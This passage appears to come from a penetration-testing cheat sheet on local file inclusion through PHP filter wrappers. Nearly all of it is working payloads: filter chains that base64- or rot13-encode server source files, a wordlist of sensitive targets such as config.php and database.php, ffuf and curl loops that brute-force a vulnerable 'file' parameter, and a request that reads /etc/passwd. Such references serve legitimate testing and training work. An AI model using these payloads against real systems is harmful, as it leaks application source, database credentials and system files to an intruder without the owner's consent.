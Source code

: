 ### 4. Advanced PHP Filter Techniques

**Filter Chaining:**
```bash
# Chain multiple filters
php://filter/string.rot13|convert.base64-encode/resource=index.php

# Multiple conversions
php://filter/convert.iconv.utf8.utf16/convert.base64-encode/resource=index.php
```

**Fuzzing for PHP Files:**
```bash
# Common PHP file names to test
admin.php
config.php
database.php
db.php
settings.php
functions.php
includes.php
header.php
footer.php
login.php
logout.php
register.php
profile.php
```

**Automated PHP File Discovery:**
```bash
# Using ffuf for PHP file fuzzing
ffuf -w php_files.txt:FUZZ \
     -u "http://target.com/index.php?file=php://filter/convert.base64-encode/resource=FUZZ" \
     -mc 200 \
     -fs 0

# Using curl with wordlist
for file in $(cat php_files.txt); do
    echo "Testing: $file"
    curl -s "http://target.com/lfi.php?file=php://filter/convert.base64-encode/resource=$file" | head -3
done
```

---

## Filter Bypass Troubleshooting

### Problem: PHP filters not working
```bash
# Issue: Application doesn't support PHP filters
# Check 1: Verify PHP filter support
http://target.com/lfi.php?file=php://filter/convert.base64-encode/resource=/etc/passwd

# Check 2: Try different filter types
php://filter/string.rot13/resource=index.php
php://filter/string.toupper/resource=index.php

# Check 3: Try without encoding
php://filter/resource=index.php
```
